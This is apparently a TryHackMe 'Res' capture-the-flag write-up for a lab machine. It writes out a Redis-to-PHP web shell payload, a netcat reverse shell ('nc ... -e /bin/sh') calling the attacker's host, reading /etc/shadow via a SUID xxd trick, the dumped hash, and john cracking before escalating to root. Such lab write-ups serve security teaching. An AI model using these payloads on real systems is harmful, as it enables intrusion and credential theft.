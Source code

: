 # Res

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [res](https://tryhackme.com/room/res).

## Flag 1

Scanning the environment we find an apache web server and a redis database...

``` sh
sudo nmap -sC -sV -sS 10.10.103.145 -p-
```

When connecting to redis we can set write a file to the main apache dir and create a simple php reverse shell:

``` sh
redis-cli -h 10.10.103.145
>config set dir /var/www/html
>config set dbfilename shell.php
>set test "<?php system($_GET['']);?>"
```

Before we visit our new page we should open a netcat session:

``` sh
nc -nvlp 666
```

Time to run our shell.php :)

``` sh
http://10.10.103.145/shell.php?cmd=nc 10.10.146.116 667 -e /bin/sh
```

Once we are successfully connected we can stabilize the shell and view the first flag:

``` sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
cat /home/vianka/user.txt
```

## Flag 2

Lets have a look at the passwd

``` sh
cat /etc/passwd
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

There is SUID bit set for xxd. To access the shadow file can use [this trick](https://gtfobins.github.io/gtfobins/xxd/).

``` sh
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Time to crack the password:

``` sh
unshadow passwd.txt shadow.txt > hash.txt
john hash.txt
```

Once we have the password we can escalate our privileges to vianka which somehow also has root access.

``` sh
su vianka
sudo su
cat /root/root.txt
```
